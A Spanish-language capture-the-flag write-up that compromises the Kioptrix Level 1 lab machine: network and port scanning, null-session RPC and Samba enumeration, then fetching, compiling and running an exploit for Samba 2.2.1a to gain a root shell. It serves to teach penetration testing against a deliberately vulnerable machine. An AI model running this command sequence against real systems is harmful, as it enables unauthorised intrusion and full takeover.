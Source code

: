 # Kioptrix Level 1 - Write-Up

## Enumeración

>Realizaremos un descubrimiento mediante el protocolo ARP para encontrar la dirección IP de la máquina víctima:

```bash
arp-scan -I eth0 --localnet --ignoredups
```
| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -I           | Elegir la interfaz en la que realizar el barrido.  |
| --localnet   | Realizar el barrido en la red local.               |
| --ignoredups | Ignorar posibles duplicados a la hora del barrido. |

[imagen]

>Posteriormente realizaremos un escaneo de puertos para obtener los puertos abiertos de la máquina víctima:

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -Pn -n IP
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -p-           | Escanear todos los puertos de la máquina (65535).  |
| --open   | Mostrar en el resultado solo los puertos abiertos.               |
| --min-rate | Solo enviar paquetes que vayan a una velocidad de x paquetes por segundo. | 
|-sS | Realizar un stealth scan que no concluye el three-way handshake del protocolo TCP enviando un RST en lugar de un ACK. (Agiliza el escaneo)
-vvv | Muestra muy detalladamente el resultado del comando.
-Pn | Dejamos de usar el protocolo de resolución de direcciones ARP para el escaneo. (Agiliza el escaneo)
-n | Dejamos de usar el servicio DNS para resolver la dirección. (Agiliza el escaneo)

[Imagen]

> Haremos un escaneo de puertos con scripts de reconocimiento y versión para obtener más información acerca de los servicios que están corriendo en la máquina:

```bash
nmap -p22,80,111,139,443,1024 -sCV -Pn -n -vvv IP
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -px           | Escanea solo los puertos o el rango especificado en lugar de la x.  |
| -sCV   | Realizar un escaneo de versión y usar scripts de reconocimiento propios de la utilidad.               |


>Como el puerto 139 está corriendo samba trataremos de enumerar el NBT.

**NetBIOS over TCP/IP** (NBT) permite que aplicaciones basadas en NetBIOS se comuniquen sobre redes TCP/IP. Este protocolo utiliza el puerto TCP 139 para gestionar sesiones NetBIOS, facilitando la conexión y comunicación entre equipos en una red local.

**Samba** es un software libre que implementa el protocolo SMB/CIFS, permitiendo la compartición de archivos e impresoras entre sistemas Unix/Linux y Windows. Samba facilita la interoperabilidad en redes mixtas, soportando tanto NBT (a través del puerto TCP 139) como SMB directamente sobre TCP/IP (a través del puerto TCP 445).

```bash
nbtscan IP
```

[Imagen]

> Ahora trataremos de loggearnos en el rpc mediante una NULL session la cual resulta ser válida en esta máquina.

**RPC** (Remote Procedure Call) es un protocolo que permite a un programa ejecutar procedimientos o subrutinas en otro programa, localizado en una máquina remota, como si estuvieran ejecutándose localmente. Es una técnica esencial en la comunicación entre diferentes sistemas en una red, facilitando la interoperabilidad y distribución de tareas en aplicaciones distribuidas.

```bash
rpcclient -U "" IP
```



| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -U           | Elegir el nombre de usuario que emplearemos para loggearnos. Si está vacío se tratará de una NULL session. |

[Imagen]

> También podemos hacer uso de la herramienta enum4linux para obtener una mayor información acerca de la máquina víctima:

```bash
enum4linux IP
```

## Explotación

>Como la versión de samba que está corriendo es una vulnerable, trataremos de buscar un exploit para esta, la versión la obtuvimos con el último comando realizado:

```bash
searchsploit "Samba 2.2.1a"
```

[Imagen]

> Ahora trataremos de emplear el siguiente exploit que permite realizar una RCE (Remote Code Execution), por lo que tendremos que obtenerlo mediante el siguiente comando:

```bash
searchsploit -m multiple/remote/10.c
```



| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -m           | Elegir la ruta del exploit que quieres descargar de exploitDB.  |

[Imagen]

> Ahora procederemos a compilarlo y darle permisos de ejecución:

```bash
gcc 10.c -o exploit
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -o           | Elegir el nombre y ubicación del script compilado.  |

```bash
chmod +x exploit
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| +x           | Permite brindar al binario de permisos de ejecución.  |


[Imagen]

> Ahora emplearemos el binario siguiendo el uso recomendado por el creador con los parámetros que veamos convenientes y ganaremos acceso como root en la máquina víctima:

```bash
./exploit -v -p 139 -b 0 IP
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -v           | Permite ver el resultado y la ejecución de forma detallada.  |
-p | Permite elegir el puerto sobre el que se usará el exploit.
-b | Permite seleccionar que distribución de SO (Sistema Operativo) está empleando la máquina víctima.

[Imagenes 2]

> Una vez hecho esto, ya estaría comprometida la máquina. Al haber obtenido directamente una shell como el usuario root no necesitariamos realizar una escalada de privilegios.
